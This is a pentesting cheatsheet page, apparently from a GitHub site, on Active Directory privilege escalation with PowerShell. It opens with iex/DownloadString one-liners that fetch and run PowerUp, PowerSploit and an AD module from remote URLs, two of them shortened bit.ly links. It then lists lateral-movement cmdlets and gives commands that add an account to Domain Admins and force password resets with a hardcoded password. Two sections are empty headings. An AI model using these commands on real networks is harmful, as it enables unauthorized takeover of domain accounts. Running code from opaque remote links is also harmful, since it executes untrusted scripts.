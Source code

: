 ```yaml
---
layout: default
title: Active Directory Privilege Escalation with Powershell
parent: Pentesting
categories: Pentesting Windows
grand_parent: Cheatsheets
has_children: true
---
```


# {{ page.title}}

## PRE-REQUISITE: Installing PowerUp and PowerSploit

- [PowerUp CheatSheet](https://github.com/HarmJ0y/CheatSheets/blob/master/PowerUp.pdf)
- [PowerSploit CheatSheet](https://github.com/HarmJ0y/CheatSheets/blob/master/PowerSploit.pdf)

```powershell
# ActiveDirectory Module
iex (new-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/ADModule/master/Import-ActiveDirectory.ps1');Import-ActiveDirectory

# PowerUp Module
iex (new-Object Net.WebClient).DownloadString('http://bit.ly/1PdjSHk'); . .\PowerUp.ps1

# PowerSploit Module
iex (new-Object Net.WebClient).DownloadString('http://bit.ly/28RwLgo'); . .\PowerSploit.ps1

```

## LATERAL MOVEMENT
```powershell
Invoke-DCOM
Invoke-SMBExec
Invoke-PsExec
Invoke-Command
mstsc.exe
```

## TOKEN IMPERSONATION

## ADD MEMBER
```
# OPTION 1
net group "Domain admins" dfm.a /add /domain

# OPTION 2
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('TESTLABdfm.a',$SecPassword)
Add-DomainGroupMember -Identity 'Domain Admins' -Members 'jomivz' -Credential $Cred

# VERIFICATION
Get-DomainGroupMember -Identity 'Domain Admins'
```


## FORCE PASSWORD CHANGE
```
# OPTION 1
net user dfm.a Password123! /domain

# OPTION 2
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('TESTLABdfm.a',$SecPassword)
$UserPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
Set-DomainUserPassword -Identity jomivz -AccountPassword $UserPassword ' -Credential $Cred
```

## KERBEROASTING
```

```

